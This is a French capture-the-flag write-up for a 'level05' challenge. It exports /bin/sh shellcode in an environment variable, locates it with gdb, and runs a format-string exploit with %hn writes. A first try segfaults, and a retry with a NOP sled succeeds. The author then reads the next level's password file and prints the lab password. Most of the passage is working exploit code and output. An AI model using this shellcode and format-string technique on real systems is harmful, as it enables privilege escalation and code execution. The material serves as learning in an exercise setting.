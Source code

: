 ```bash
$ export PAYLOAD=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Puis la trouve sa nouvelle adresse dans `gdb` :

```h
...
0xffffdf9a:      "PAYLOAD=1\300Ph//shh/bin\211\343PS\211\341\260\v̀"
...

(gdb) x/100bx 0xffffdf9a
0xffffdf9a:     0x50    0x41    0x59    0x4c    0x4f    0x41    0x44    0x3d
0xffffdfa2:     0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73    0x68 <---- cette adresse
0xffffdfaa:     0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3    0x50
0xffffdfb2:     0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80    0x00
0xffffdfba:     0x4c    0x45    0x53    0x53    0x43    0x4c    0x4f    0x53
0xffffdfc2:     0x45    0x3d    0x2f    0x75    0x73    0x72    0x2f    0x62
0xffffdfca:     0x69    0x6e    0x2f    0x6c    0x65    0x73    0x73    0x70
0xffffdfd2:     0x69    0x70    0x65    0x20    0x25    0x73    0x20    0x25
0xffffdfda:     0x73    0x00    0x2f    0x68    0x6f    0x6d    0x65    0x2f
0xffffdfe2:     0x75    0x73    0x65    0x72    0x73    0x2f    0x6c    0x65
0xffffdfea:     0x76    0x65    0x6c    0x30    0x35    0x2f    0x6c    0x65
0xffffdff2:     0x76    0x65    0x6c    0x30    0x35    0x00    0x00    0x00
0xffffdffa:     0x00    0x00    0x00    0x00
```

Je refais tout les calcul précédamment effectué sur la nouvelle adresse et construit le payload à partir de ces nouvelles informations :

```bash
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57242x%10$hn" + "%8285x%11$hn")'; cat) | ./level05
whoami
Segmentation fault (core dumped)
$
```

Grrrr, sans succès, j'analyse à nouveau les potentiels problèmes.

Je me rappelle dans `Rainfall` avoir dû besoin de faire des `NOP sled`, ce qui revient à une instruction "nulle" mais qui peut aider à aligner la mémoire, j'en ajoute donc devant mon payload :

```h
export PAYLOAD=$'\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Et le ré-essaye :

```bash
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57242x%10$hn" + "%8285x%11$hn")'; cat) | ./level05
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
^C
```

ENFIN !
